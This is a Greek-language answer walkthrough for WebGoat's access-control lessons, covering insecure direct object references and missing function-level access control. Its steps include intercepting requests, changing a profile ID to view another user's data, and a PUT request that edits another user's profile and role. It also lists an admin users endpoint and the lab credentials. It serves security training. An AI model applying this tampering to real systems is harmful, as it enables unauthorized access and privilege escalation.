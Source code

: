 
# Αδυναμίες Ελέγχου Πρόσβασης

## Μη Ασφαλείς Άμεσες Αναφορές Αντικειμένων (Insecure Direct Object References) #1
Συνδέσου με τα διαπιστευτήρια tom/cat, όπως έχει δοθεί.

## Μη Ασφαλείς Άμεσες Αναφορές Αντικειμένων #2
Υπέκλεψε το HTTP αίτημα με εργαλεία όπως τα Wireshark ή Fiddler, και διάβασε το σώμα της απάντησης:
```json
{
  "role": 3,
  "color": "yellow",
  "size": "small",
  "name": "Tom Cat",
  "userId": "2342384"
}
```
Τα πεδία που δεν εμφανίζονταν στην αρχική προβολή είναι τα `role` και `userId`.

## Μη Ασφαλείς Άμεσες Αναφορές Αντικειμένων #3
Η διαδρομή (REST path) προς το προφίλ είναι `/WebGoat/IDOR/profile/2342384`, όπως φαίνεται μετά από υποκλοπή των HTTP αιτήσεων.

## Μη Ασφαλείς Άμεσες Αναφορές Αντικειμένων #4
**Προβολή Άλλου Προφίλ:** Υπέκλεψε το GET αίτημα με το εργαλείο ZAP, και τροποποίησε το path `/profile/userId` σε `/profile/2342388` ώστε να εμφανιστεί το προφίλ άλλου χρήστη.

**Επεξεργασία Άλλου Προφίλ:** Υπέκλεψε το αίτημα και τροποποίησέ το ως εξής:

PUT /WebGoat/IDOR/profile/2342388  
Content-Type: application/json
```json
{
  "role": 1,
  "color": "red",
  "size": "large",
  "name": "Buffalo Bill",
  "userId": 2342388
}
```

## Έλλειψη Ελέγχου Πρόσβασης σε Επίπεδο Λειτουργίας (Missing Function Level Access Control) #1
Οι διαθέσιμες επιλογές είναι `Users` και `Config`, όπως βρέθηκαν σε τμήμα του HTML που περιβάλλεται από class `hidden*` (δεν προσδιορίστηκε η ακριβής class, αλλά δεν είναι απαραίτητο).

![Εικόνα UI με κρυφές επιλογές](./images/function_level_access_control_1.png)

* Επιλογές που είναι κρυμμένες στο περιβάλλον χρήστη.

## Έλλειψη Ελέγχου Πρόσβασης σε Επίπεδο Λειτουργίας #2
Στείλε ένα GET αίτημα στο `/WebGoat/users` με `Content-Type` ορισμένο σε `application/json`. Θα λάβεις την εξής απάντηση:
```json
[
    {
        "username": "johndoe",
        "admin": false,
        "userHash": "bOsZfbase64z804CSVl1vp5BR/RXybAAbEr5+X4lWQ8="
    }
]
```
